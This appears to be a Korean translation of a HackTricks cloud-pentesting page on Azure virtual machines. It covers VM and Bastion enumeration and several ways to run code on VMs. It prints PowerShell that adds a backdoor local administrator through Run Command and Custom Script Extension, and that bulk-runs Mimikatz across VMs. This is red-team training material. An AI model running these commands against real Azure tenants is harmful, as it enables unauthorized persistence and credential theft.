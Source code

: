 # Az - 가상 머신 및 네트워크

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 기본 정보

[문서에서:] (https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure 가상 머신은 Azure가 제공하는 여러 유형의 [온디맨드, 확장 가능한 컴퓨팅 리소스](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) 중 하나입니다. 일반적으로, 다른 선택지보다 컴퓨팅 환경에 대한 더 많은 제어가 필요할 때 가상 머신을 선택합니다. 이 문서는 가상 머신을 생성하기 전에 고려해야 할 사항, 생성 방법 및 관리 방법에 대한 정보를 제공합니다.

## Azure 네트워크 정보

Azure 네트워크는 **다양한 엔티티와 구성 방법을 포함합니다.** 다양한 Azure 네트워크 엔티티에 대한 간략한 **설명,** **예제** 및 **열거** 명령을 찾을 수 있습니다:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion**은 Azure 포털을 통해 SSL을 통해 안전하고 완전 관리되는 RDP(원격 데스크톱 프로토콜) 및 SSH(보안 셸) 액세스 솔루션을 제공합니다. Azure 가상 네트워크 내에 통합되어 있어, 공용 IP 없이 개인 IP를 사용하여 VM에 대한 RDP 및 SSH 연결을 허용합니다. 이는 VM 액세스를 위한 공용 IP 할당 및 NSG 규칙 구성을 포함하는 전통적인 방법보다 더 안전하고 편리한 대안이 됩니다. 개발자와 IT 직원은 웹 브라우저를 사용하여 Azure 포털에서 VM에 안전하게 액세스할 수 있어 개발 및 테스트 환경을 위한 프로세스를 간소화합니다.

구독 내 모든 Azure Bastion 호스트를 나열하려면 다음 명령을 사용할 수 있습니다:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM 열거
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **VM에서 명령 실행하기**

### **VM에서 AAD 로그인**

AzureAD를 통해 인증된 사용자에게 접근을 허용할 수 있습니다. 예를 들어 **linux VM**에 접근하려고 할 때: `ssh username@azure-corp.com@1.1.1.1` (로그인 시 사용한 azurecorp와 함께 **이메일을 사용하는 것이 중요합니다**) 다음과 같은 오류가 발생할 수 있습니다:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

그냥 **이 지침을 따르세요** [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin)로 가서 코드를 입력하고, 이메일과 비밀번호를 자격 증명으로 사용하면 SSH를 통해 연결할 수 있습니다(해당 사용자가 그렇게 할 수 있는 충분한 권한이 있는 경우: `Virtual Machine Administrator Login` 또는 `Virtual Machine User Login` 역할).

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **사용자 지정 스크립트 확장 실행**

Azure 가상 머신(VM) 확장은 **Azure VM**에서 배포 후 구성 및 자동화 **작업**을 제공하는 **작은 애플리케이션**입니다. 예를 들어, 가상 머신에 소프트웨어 설치, 바이러스 백신 보호 또는 내부에서 스크립트를 실행할 수 있는 기능이 필요한 경우 VM 확장을 사용할 수 있습니다.

따라서 이를 작성할 수 있는 권한이 있다면 임의의 코드를 실행할 수 있습니다:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC)는 코드를 통해 호스트를 설정하는 데 사용되는 Ansible과 유사한 PowerShell 도구입니다. DSC는 Azure와 통합되어 특정 구성 파일을 업로드할 수 있습니다. 이러한 파일은 엄격한 구문을 준수해야 합니다. 특히, Azure의 DSC 확장은 특정 형식 기준을 충족하는 파일에서 명령을 실행할 수 있으며, DSC 표준에 맞지 않는 구문일지라도 실행할 수 있습니다.

이러한 명령의 실행은 Az PowerShell의 [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) 함수에 의해 용이해집니다. 요구 사항에는 정의된 함수가 포함된 **.PS1** 파일이 필요하며, 이 파일은 **.zip** 파일로 압축되어야 합니다. 구문이 DSC에 정확하지 않더라도 코드는 여전히 실행됩니다. 그러나 확장은 실행 상태를 "실패"로 표시하며, 실패 메시지로 인해 명령의 출력은 표시되지 않습니다.

### VM Application Definitions

VM Application Definitions는 버전이 지정된 애플리케이션을 Azure VM에 반복적으로 배포할 수 있게 해줍니다. 이 리소스는 VM 간의 애플리케이션 배포 및 업데이트를 지원합니다. 이를 설정하기 위해서는 Az PowerShell에서 **`New-AzGalleryApplication`** 및 **`New-AzGalleryApplicationVersion`**과 같은 명령을 포함한 여러 단계가 필요합니다.

이 방법을 통해 애플리케이션이나 명령을 실행하는 것은 VM에 애플리케이션이 적용될 때 자동으로 설치되는 **"VMAppExtension"**을 포함합니다. 이 확장은 지정된 URI에서 파일을 가져오고, 애플리케이션과 동일한 이름으로 확장자 없이 저장합니다. 파일을 올바르게 실행하려면 REST API 호출의 "ManageActions" 필드를 구성하여 파일의 이름을 적절한 확장자로 변경해야 합니다. 이 방법의 설정이 완료되면 제공된 그림에 표시된 구조와 유사하게 됩니다.

그러나 이 실행 방법은 상대적으로 느리며, 애플리케이션이나 명령을 실행하는 데 약 3-4분이 소요됩니다. 이 과정과 관련된 파일은 특정 디렉터리에 저장됩니다 (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\`는 애플리케이션 복사본, `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\`는 실행 상태).

두 기술 모두 Azure 환경에서 명령을 실행하고 애플리케이션을 배포하는 독특한 방법을 제공하며, 각각 고유한 요구 사항, 단계 및 고려 사항이 있습니다.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker)는 Azure의 기능으로, Automation Account에서 구성된 Runbook을 지정된 HWG의 일부인 Azure Virtual Machine (VM)에서 실행할 수 있게 해줍니다. 이 실행은 VM에 설치된 확장을 통해 용이해지며, Runbook 코드를 VM에 배포합니다. 이 과정의 중요한 점은 실제 자격 증명이 실행에 영향을 미치지 않는다는 것입니다. 코드가 **SYSTEM** 또는 root로서 권한 상승된 상태로 실행되기 때문입니다.

Windows 10 VM을 사용하는 경우 중요한 세부 사항은 Runbook에 대해 PowerShell 버전을 지정해야 한다는 것입니다. PowerShell Version 5.1로 실행되도록 설정해야 하며, 7.1로 설정하면 실패하게 됩니다. 이는 PowerShell 7.1이 이러한 VM에 기본적으로 설치되어 있지 않기 때문입니다.

Azure의 이 기능은 하이브리드 환경에서 작업을 자동화하고 관리하는 강력한 방법을 제공하며, Azure VM에서 작업을 중앙 집중식으로 관리하고 실행할 수 있게 해줍니다.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

